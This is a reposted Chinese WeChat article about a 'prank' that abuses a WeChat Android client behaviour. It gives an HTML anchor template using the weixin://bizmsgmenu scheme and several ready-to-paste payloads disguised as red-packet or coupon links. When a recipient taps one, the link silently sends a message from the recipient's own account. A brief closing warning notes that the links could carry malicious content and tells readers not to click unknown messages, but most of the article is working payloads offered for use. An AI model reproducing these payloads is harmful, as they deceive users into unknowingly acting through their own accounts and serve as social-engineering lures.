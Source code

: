 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3NTU3NTY0Nw==&mid=2247489978&idx=1&sn=822ebed3b5c7e945a1160e02b6173028

#  【数据安全篇】微信"引用"消息变成私信好友XSS整蛊  
 网络安全与取证研究   2025-07-14 00:00  
  
**1**  
  
**使用方法："引用"消息，发送代码**  
  
  
不管是微信  
群聊还是私聊，只要  
引用微信消息然后发这段  
"  
HTML代码"，别人  
点击这个消息  
后，就会自动  
私信发送给好友！！！  
并不会切换到好友聊天界面，是无感的，所以操作需要谨慎！！！  
  
  
目前只对部分Android系统有用，电脑端和iOS端都会显示源码！  
  
Android端：显示源码，有  
超链接蓝色字体。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYXia6G4ibDoVMYJvdAoos86M3nFZf7fa1OxledwlxsxUBoD6ic8mPSo2Lg/640?wx_fmt=png&from=appmsg "")  
  
  
Windows电脑端  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYvpqColjVVzvealVnnk45GSc0OYBHIC3Xu3B6zzSLXBSVGSadowk9bg/640?wx_fmt=png&from=appmsg "")  
  
  
好友显示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYEydfTS9HgpPaFZyqgBWicRJCJIiaK7AiatTLwMarkywPRXvONZ7jdxlMg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYJDNvtKAjicVzLS07ichNzKWMB4btJd0tVaQmNMBlEklBSmEU2ZjHm3dg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**2**  
  
**源码：直接"引用" 群/好友消息，粘贴源码即可**  
  
  
里面的文字可根据场景自定义替换：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYouI9E4yt1UW7DXZCseOCBRSrjerp99icsTpOpxx0uianOCh9B1NnOMBg/640?wx_fmt=png&from=appmsg "")  
  
  

```
<a 
href=&#34;weixin://bizmsgmenu
?msgmenucontent=【实际发送的信息】
&msgmenuid=960&#34;>【显示的信息】</a >
```

  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=你是我见过最帅的人  
  
&msgmenuid=960">点击领取红包  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=把你的不开心通通赶走  
  
&msgmenuid=960">点击有惊喜</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=爸爸  
  
&msgmenuid=960">点击领取今日份红包  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=你是我见过最帅的人  
  
&msgmenuid=960">点击领取美团大额优惠券  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=哎，又被骗了，我要加强学习了，也送你一份学习资料  
https://flk.npc.gov.cn/index.html  
  
&msgmenuid=960">点击领取红包🧧</a>   
  
  
  
**3**  
  
**注意事项**  
  
  
增强防范安全  
：如果是替换的是  
超链接/病毒链接/获取位置信息等……  
，是否会自动下载安装病毒文件、获取手机数据、位置信息等，造成数据泄露等风险。  
  
陌生信息不要乱点！！！  
  
  
书写片面，纯粹做个记录，有错漏之处欢迎指正！  
  
【声明：欢迎转发收藏，个人创作不易，喜欢记得点点赞！！！转载引用请注明出处，著作所有权归 [蘇小沐] 所有】  
  
【注：共享资源收集于官网或互联网公开材料，仅供学习研究，如有侵权请联系删除，谢谢！】  
<table><tbody><tr><td data-colwidth="514"><section style="margin-bottom: 0px;line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">记录</span></span></section></td></tr><tr><td data-colwidth="514"><section style="line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">开始编辑：2025年 07月 13日</span></span></section></td></tr><tr><td data-colwidth="514"><section style="line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">最后编辑：2025年 07月 13日</span></span></section></td></tr></tbody></table>  
**END**  
  
  
  
关注我，了解更多取证知识，记得点赞+在  
看！![](https://mmbiz.qpic.cn/mmbiz_gif/kw2nrMk65sdm2h1H7HL0PuJZltDnjKlKJKwx2SOicHZ6ciceNaAhompextcznbssviakCvDN8S2yJxhDVDuZhxSFw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&random=0.7923755508015693&random=0.6074162352494825&random=0.7255493766092054 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RITPxDQz30icticGDszvMCTbvDxbl8zxyibqkfOTIRXJQVU3YEHicR6AiatHvlnPic7qayibiazKoJV54NVDMmL1uVqsGg/640?wx_fmt=png&random=0.008279855111830159&random=0.8417589579850686&random=0.7406363082812077&random=0.10974797073162001&random=0.07292006660739969&wxfrom=5&wx_lazy=1&wx_co=1&random=0.9329563926201925 "")  
  
  
  
  
